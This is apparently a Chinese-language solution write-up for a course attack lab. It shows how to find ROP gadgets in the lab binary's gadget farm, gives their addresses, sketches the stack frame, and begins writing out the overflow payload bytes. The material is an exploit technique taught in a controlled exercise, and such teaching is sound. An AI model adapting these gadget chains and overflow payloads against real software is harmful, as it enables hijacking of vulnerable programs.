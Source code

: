  ## Part 2 ROP攻击
 
从gadget farm中挑选出有用的gadget执行ROP攻击，函数start_farm和end_farm之间的所有函数构成了gadget farm，不要用程序代码中的其他部分作为gadget

把farm里面的代码复制进一个文本文件里方便查找我们需要的代码
 
 ### Phase 4
需要用ROP攻击实现phase2，即调用touch2函数，跳转和前面的一样，但是还需要把cookie放到`%rdi`里

首先考虑最简单的，即在farm里找到
```
pop %rdi
ret
```
找不到，考虑
```
pop %rax
ret

movq %rax,%rdi
ret
```
机器码为
```
Disassembly of section .text:

0000000000000000 <.text>:
   0:   58                      pop    %rax
   1:   c3                      retq
   2:   48 89 c7                mov    %rax,%rdi
   5:   c3                      retq 
```

pop    %rax 对应的机器码为 58，先搜58，找到
```
0000000000401995 <getval_222>:
  401995:       b8 da 58 c3 fc          mov    $0xfcc358da,%eax
  40199a:       c3                      retq
```
在`0x401997`（不唯一，随便一个就行）

 mov    %rax,%rdi 对应的机器码为 48 89 c7 ，找到
 ```
 000000000040199b <getval_435>:
  40199b:       b8 48 89 c7 c3          mov    $0xc3c78948,%eax
  4019a0:       c3                      retq
 ```
 在`0x40199c`

现在画一下栈帧，看着清楚一点
```
getbuf栈帧（填满56个）
gardget1: pop    %rax		           <-rsp
cookie: 0x6a1e7f12
gardget2: mov    %rax,%rdi
&touch2: 0x401833
```
得到对应的机器码
```
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
97 19 40 00 00 00 00 00
```